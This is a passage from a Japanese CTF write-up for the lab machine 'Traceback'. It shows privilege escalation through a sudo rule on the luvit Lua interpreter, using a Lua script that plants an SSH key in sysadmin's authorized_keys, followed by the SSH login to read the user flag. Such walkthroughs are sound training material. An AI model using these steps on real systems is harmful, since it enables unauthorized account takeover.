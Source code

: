 先程の `ls` の結果を見つめ直すと `note.txt`, `.luvit_history` の興味深いファイルが見つかります。
前者の内容は以下です。後者は空でした。

```
$ cat /home/webadmin/note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

Lua の練習ツールを `sysadmin` が残してくれたらしいです。

続いてホームディレクトリ内のファイルを順番に見ていると以下のような興味深い履歴が見つかります。

```
$ cat /home/webadmin/.bash_history
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
rm privesc.lua
logout
```

どうやら `luvit` で権限昇格が出来るようです。
[`luvit`](https://luvit.io/) は Node.js の API を使える Lua の処理系らしいです。
これを使って `sysadmin` に `ssh` 出来るように `/home/sysadmin/.ssh/authorized_keys` の作成を試みます。

以下のコードを `/home/webadmin/privesc.lua` として書きます。キーの内容はクライアントマシンの `~/.ssh/traceback.pub` です。

```lua
local fs = require('fs')

fs.mkdirSync('/home/sysadmin/.ssh')

local pubkey = 'ssh-rsa xxxxxxxxxxxxxxxx xxxxxxxxxxxxxxxx@xxxxxxxxxxxxxxxx'
fs.writeFileSync('/home/sysadmin/.ssh/authorized_keys', pubkey)
```

これを `.bash_history` に従って以下のように実行すると無事に正常終了します。

```
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
```

これで `sysadmin` に `ssh` 出来るようになって `user.txt` が取れました！

```
$ ssh -i ~/.ssh/traceback sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Fri Aug 21 00:47:10 2020 from 10.10.14.11
$ bash
sysadmin@traceback:~$ cat user.txt
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```
